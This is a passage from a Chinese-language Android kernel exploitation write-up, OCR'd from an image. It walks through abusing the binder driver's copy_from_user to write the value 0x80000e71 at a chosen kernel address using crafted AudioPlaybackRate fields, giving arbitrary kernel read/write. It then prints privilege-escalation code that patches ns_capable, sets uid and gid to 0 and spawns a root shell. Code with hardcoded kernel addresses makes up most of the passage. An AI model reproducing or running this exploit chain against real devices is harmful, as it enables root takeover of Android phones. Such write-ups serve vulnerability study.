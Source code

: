 ```
        t->buffer->target_node = target_node;
        trace_binder_transaction_alloc_buf(t->buffer);
        off_start = (binder_size_t *)(t->buffer->data +
                                      ALIGN(tr->data_size, sizeof(void *)));
        offp = off_start;
 
        if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)   //修改t->buffer->data为目标地址
                           tr->data.ptr.buffer, tr->data_size))

```

5、什么地址修改为什么内容呢？

参考内核镜像攻击，[原创] CVE-2017-7533 漏洞利用，0xffffffc001e50840 需要被写入 0x80000e71。看上面 copy_from_user，t->buffer->data 被占位为 0xffffffc001e50834，源数据和 size 是 tr->data.ptr.buffer 和 tr->data_size，那么怎么填充源数据和 size 呢？

```
status_t init_reply_data()
{
    setDataSource();
    AudioPlaybackRate rate;
    rate.mSpeed = 1;
    rate.mPitch = 1;
    rate.mStretchMode = (AudioTimestretchStretchMode)0;
    rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);
}

```

具体是如何设置上的呢？读者可以对着 binder 进程间通信的流程来尝试理解。

此时目的地址设置为 0xffffffc001e50834，源数据为 0x80000e71，由于 rate.mSpeed，rate.mPitch，rate.mStretchMode 会占用 12 个字节，所以执行完 copy_from_user 后，0xffffffc001e50840 地址被填充 0x80000e71。此时可以在用户态任意地址读写了。

6、提权

```
void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;
 
        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}
 
unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
        kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
    if(setreuid(0, 0) || setregid(0, 0)){
             printf("[-] setgid failed\n");
        return -1;
        }
    if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }

```
